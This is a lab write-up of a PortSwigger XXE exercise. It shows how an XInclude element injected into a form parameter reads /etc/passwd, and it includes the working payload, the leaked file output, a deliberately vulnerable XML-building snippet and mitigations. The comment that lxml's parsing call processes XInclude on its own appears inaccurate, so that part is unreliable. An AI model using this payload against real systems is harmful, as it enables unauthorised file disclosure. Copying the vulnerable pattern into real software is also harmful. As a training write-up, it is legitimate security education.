

# Lab 07: Exploiting XInclude to Retrieve Files

> **Topic**: XXE (XML External Entity) Injection
> **Lab Number**: 07
> **Platform**: PortSwigger Web Security Academy

## Category
XXE Injection — XInclude File Read via User-Controlled Value Embedded in Server-Side XML

## Vulnerability Summary
The stock-check feature submits `productId` and `storeId` as URL-encoded form parameters (`Content-Type: application/x-www-form-urlencoded`), not as XML. The server embeds these values into an XML document it constructs server-side before parsing. Because the attacker cannot inject a DOCTYPE declaration (they don't control the XML envelope), classic XXE entity injection is not possible. However, the server's XML parser supports XInclude — a W3C standard for composing XML documents from multiple sources. By injecting an `xi:include` element with the XInclude namespace into the `productId` parameter, the parser processes it as an include directive and substitutes the contents of `/etc/passwd` into the document, which is then reflected in the error response.

## Attack Methodology

### Step 1: Identify the Entry Point
Intercepted the stock-check POST request:

```
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

productId=1&storeId=1
```

`Content-Type: application/x-www-form-urlencoded` — not XML. The server constructs the XML document internally, so a DOCTYPE injection is not possible. The `productId` value is embedded into the XML the server builds.

### Step 2: Inject the XInclude Payload
Replaced `productId` with an `xi:include` element declaring the XInclude namespace and pointing at `/etc/passwd`:

```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

Key attributes:
- `xmlns:xi="http://www.w3.org/2001/XInclude"` — declares the XInclude namespace on the injected element
- `parse="text"` — instructs the processor to include the file as plain text (not as XML, which would fail for `/etc/passwd`)
- `href="file:///etc/passwd"` — the local file to include

### Step 3: Read the File from the Response
The server returned HTTP 400 with the full `/etc/passwd` contents reflected in the error message:

```
"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
carlos:x:12002:12002::/home/carlos:/bin/bash
...
```

Lab solved.




## Technical Root Cause

XInclude is processed by the XML parser as part of document composition — before the application reads any values. When the server embeds the user-supplied `productId` into its XML template and parses the result, the `xi:include` directive is executed by the parser, replacing the element with the contents of the referenced file.

```python
# Vulnerable — user input embedded into XML before parsing
def check_stock(request):
    product_id = request.POST.get('productId')
    store_id = request.POST.get('storeId')
    xml = f"""<?xml version="1.0"?>
    <stockCheck>
        <productId>{product_id}</productId>
        <storeId>{store_id}</storeId>
    </stockCheck>"""
    tree = etree.fromstring(xml.encode())   # XInclude processed here
    # product_id now contains /etc/passwd contents
```

### Why DOCTYPE Injection Doesn't Work Here
The attacker's input is embedded *inside* an existing XML element — after the `<?xml?>` declaration and root element have already been written by the server. A DOCTYPE declaration must appear before the root element, so injecting `<!DOCTYPE ...>` into `productId` would produce malformed XML. XInclude works because it operates at the element level, not the document level.

### XInclude vs Classic XXE

| Technique | Requires DOCTYPE control | Works in embedded context | Namespace required |
|---|---|---|---|
| Classic XXE (`&entity;`) | Yes | No | No |
| XInclude (`xi:include`) | No | Yes | Yes (`xmlns:xi`) |

## Impact
- **Arbitrary File Read**: Any file readable by the web server process is accessible — `/etc/passwd`, config files, private keys, source code
- **Bypasses DOCTYPE-Based Defences**: Mitigations that strip or reject DOCTYPE declarations do not prevent XInclude attacks, since no DOCTYPE is needed
- **Applies to Any XML-Embedding Pattern**: Any application that concatenates user input into XML before parsing is vulnerable — REST APIs that convert JSON/form data to XML internally, SOAP gateways, and XML templating systems

## Proof of Concept

```
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

`/etc/passwd` contents appear in the `"Invalid product ID: ..."` error response.

## Key Takeaways
1. **XInclude Is a Separate Attack Surface from XXE**: Applications that sanitise DOCTYPE declarations but allow user input to be embedded in XML are still vulnerable to XInclude injection. The two techniques require different mitigations.
2. **`parse="text"` Is Essential**: Without it, the parser tries to include `/etc/passwd` as an XML document, which fails due to the `:` characters. `parse="text"` treats the file as a raw string.
3. **The Namespace Declaration Must Be on the Injected Element**: Since the attacker doesn't control the document root, the `xmlns:xi` namespace must be declared on the injected element itself — not assumed to be inherited.
4. **Form Parameters Are Not Safe from XML Injection**: `Content-Type: application/x-www-form-urlencoded` does not mean the server processes the data as plain text. If the server converts it to XML internally, the XML attack surface is still present.

## Mitigation

### 1. Disable XInclude Processing
```python
# lxml — disable XInclude
parser = etree.XMLParser(resolve_entities=False, no_network=True)
tree = etree.fromstring(xml_data, parser)
# Do NOT call tree.xinclude() unless explicitly needed
```

```java
// Disable XInclude in Java
SAXParserFactory spf = SAXParserFactory.newInstance();
spf.setXIncludeAware(false);
```

### 2. Never Concatenate User Input into XML
Use a proper XML builder to construct the document — user values should be set as text node values, not interpolated as raw strings:

```python
root = etree.Element("stockCheck")
etree.SubElement(root, "productId").text = product_id   # safe — treated as text
etree.SubElement(root, "storeId").text = store_id
```

## References
- [PortSwigger XXE Lab — Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)
- [PortSwigger XXE — XInclude attacks](https://portswigger.net/web-security/xxe#xinclude-attacks)
- [W3C XInclude Specification](https://www.w3.org/TR/xinclude/)
- [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-15*
*Writeup by vibhxr*
